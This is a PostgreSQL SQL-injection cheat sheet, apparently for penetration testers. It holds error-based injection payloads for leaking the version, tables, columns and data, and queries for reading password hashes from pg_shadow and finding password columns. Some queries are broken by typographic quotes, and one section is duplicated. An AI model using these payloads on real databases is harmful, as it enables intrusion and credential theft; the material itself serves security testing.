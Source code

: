 # PostgresSQL

## PostgreSQL Comments
```
--
/**/ 
--------------------------------------------------
SELECT 1; –comment
SELECT /*comment*/1;
```

## PostgreSQL Error Based - Basic
```
,cAsT(chr(126)||vErSiOn()||chr(126)+aS+nUmeRiC)
,cAsT(chr(126)||(sEleCt+table_name+fRoM+information_schema.tables+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+column_name+fRoM+information_schema.columns+wHerE+table_name=data_column+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+data_column+fRoM+data_table+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)
```
## PostgreSQL Time Based


# ----------------------------------------------------------

### Version	
``` 
SELECT version()
```
### Comments	
```
SELECT 1; –comment
SELECT /*comment*/1;
```
### Current User	
```
SELECT user;
SELECT current_user;
SELECT session_user;
SELECT usename FROM pg_user;
SELECT getpgusername();
```
### List Users	
```
SELECT usename FROM pg_user
```
### List Password Hashes
```
SELECT usename, passwd FROM pg_shadow — priv
```
### Password Cracker	
```
MDCrack can crack PostgreSQL’s MD5-based passwords.
```
### List Privileges	
```
SELECT usename, usecreatedb, usesuper, usecatupd FROM pg_user
```
### List DBA Accounts
```
SELECT usename FROM pg_user WHERE usesuper IS TRUE
```
### Current Database	
```
SELECT current_database()
```
### List Databases	
```
SELECT datname FROM pg_database
```
### List Columns	
```
SELECT relname, A.attname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind=’r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum>0) AND (NOT A.attisdropped) AND (N.nspname ILIKE ‘public’)
```
### List Tables	
```
SELECT c.relname FROM pg_catalog.pg_class c LEFT JOIN pg_catalog.pg_namespace n ON n.oid = c.relnamespace WHERE c.relkind IN (‘r’,”) AND n.nspname NOT IN (‘pg_catalog’, ‘pg_toast’) AND pg_catalog.pg_table_is_visible(c.oid)
Find Tables From Column Name	If you want to list all the table names that contain a column LIKE ‘%password%’:SELECT DISTINCT relname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind=’r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum>0) AND (NOT A.attisdropped) AND (N.nspname ILIKE ‘public’) AND attname LIKE ‘%password%’;
```
List Tables	
```
SELECT c.relname FROM pg_catalog.pg_class c LEFT JOIN pg_catalog.pg_namespace n ON n.oid = c.relnamespace WHERE c.relkind IN (‘r’,”) AND n.nspname NOT IN (‘pg_catalog’, ‘pg_toast’) AND pg_catalog.pg_table_is_visible(c.oid)
```
### Find Tables From Column Name	
```
If you want to list all the table names that contain a column LIKE ‘%password%’:SELECT DISTINCT relname FROM pg_class C, pg_namespace N, pg_attribute A, pg_type T WHERE (C.relkind=’r') AND (N.oid=C.relnamespace) AND (A.attrelid=C.oid) AND (A.atttypid=T.oid) AND (A.attnum>0) AND (NOT A.attisdropped) AND (N.nspname ILIKE ‘public’) AND attname LIKE ‘%password%’;
```
### Select Nth Row	
```
SELECT usename FROM pg_user ORDER BY usename LIMIT 1 OFFSET 0; — rows numbered from 0
SELECT usename FROM pg_user ORDER BY usename LIMIT 1 OFFSET 1;
```
### Select Nth Char	
```
SELECT substr(‘abcd’, 3, 1); — returns c
```
### Bitwise AND	
```
SELECT 6 & 2; — returns 2
SELECT 6 & 1; –returns 0
```
### ASCII Value -> Char	
```
SELECT chr(65);
```
### Char -> ASCII Value	
```
SELECT ascii(‘A’);
```
### Casting	
```
SELECT CAST(1 as varchar);
SELECT CAST(’1′ as int);
```
### String Concatenation	
```
SELECT ‘A’ || ‘B’; — returnsAB
```
### If Statement	
```
IF statements only seem valid inside functions, so aren’t much use for SQL injection.  See CASE statement instead.
```
### Case Statement	
``` SELECT CASE WHEN (1=1) THEN ‘A’ ELSE ‘B’ END; — returns A
```
### Avoiding Quotes	
```
SELECT CHR(65)||CHR(66); — returns AB
```
## References:
http://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet

